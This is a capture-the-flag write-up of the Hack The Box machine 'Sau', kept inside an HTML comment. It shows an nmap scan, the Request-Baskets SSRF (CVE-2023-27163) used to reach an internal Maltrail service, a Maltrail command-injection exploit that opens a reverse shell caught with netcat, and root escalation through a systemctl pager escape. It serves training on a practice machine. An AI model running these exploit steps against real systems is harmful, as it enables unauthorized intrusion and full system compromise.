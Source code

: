 ```yaml
---
title: HTB - Sau
date: 2023-12-04
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, cve-2023-27163, ssrf, command-injection, request-baskets, maltrail]
img_path: /assets/htb/fullpwn/sau/
published: true
---
```


![room_banner](sau_banner.png)

## Overview

|:-:|:-:|
|Machine|[Sau](https://app.hackthebox.com/machines/551)|
|Rank|Easy|
|Time|1h26m|
|Focus|SSRF, command-injection|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- 
## 1. Information Gathering

```shell
# TCP SYN all ports scanning
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 -p- sau

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 04 Dec 2023 13:59:49 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|_    Content-Length: 0

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Initial Foothold

![](homepage.png)

![](request-baskets_version.png)

> Source: [Request-Baskets 1.2.1 Server-Side Request Forgery (CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)
> 
> _**Request Baskets** is a web service designed to capture arbitrary HTTP requests and facilitate their inspection through either a RESTful API or a straightforward web user interface._
>
> *[CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) represents a critical **Server-Side Request Forgery (SSRF) vulnerability** that was identified in Request-Baskets, affecting all versions up to and including 1.2.1. This particular vulnerability grants malicious actors the ability to gain unauthorized access to network resources and sensitive information by exploiting the `/api/baskets/{name}` component through carefully crafted API requests.*
>
> *As previously mentioned, Request-Baskets operates as a web application designed to collect and log incoming HTTP requests directed to specific endpoints known as “baskets.” During the creation of these baskets, users have the flexibility to specify alternative servers to which these requests should be forwarded. **The critical issue here lies in the fact that users can inadvertently specify services they shouldn’t have access to, including those typically restricted within a network environment**.*
>
> *For example, consider a scenario where the server hosts Request-Baskets on port 55555 and simultaneously runs a Flask web server on port 8000. The Flask server, however, is configured to exclusively interact with the localhost. In this context, an attacker can exploit the SSRF vulnerability by creating a basket that forwards requests to http://localhost:8000, effectively bypassing the previous network restrictions and gaining access to the Flask web server, which should have been restricted to local access only.*

> [PoC of SSRF on Request-Baskets (CVE-2023-27163)](https://github.com/entr0pie/CVE-2023-27163/tree/main)

```shell
# enumerating internal webserver
 ./CVE-2023-27163.sh http://sau:55555 http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "kwpjxa" proxy basket...
> Basket created!
> Accessing http://sau:55555/kwpjxa now makes the server request to http://localhost:80.
> Authorization: TOXDrjpjR4bfvkkSGah34Nvu3r8L7pv3mV3ECGG_IacT
```

![](internal_webserver.png)

> [Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) - Command Injection Vulnerability

```shell
# running maltrail PoC through request-baskets
python3 exploit.py 10.10.14.4 4444 http://sau:55555/kwpjxa
Running exploit on http://sau:55555/kwpjxa/login
```

```shell
# catching a shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.224] 33162
$
```

```shell
# user flag
puma@sau:~$ cat ~/user.txt
cat ~/user.txt
```

## 3. Privilege Escalation

```shell
# checking perms
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

> `sudo systemctl status [service]` [privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager).

```shell
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# cat /root/root.txt
cat /root/root.txt
```
 -->

<figure>
    <img src="sau_pwned.png"
    alt="Machine pwned" >
</figure>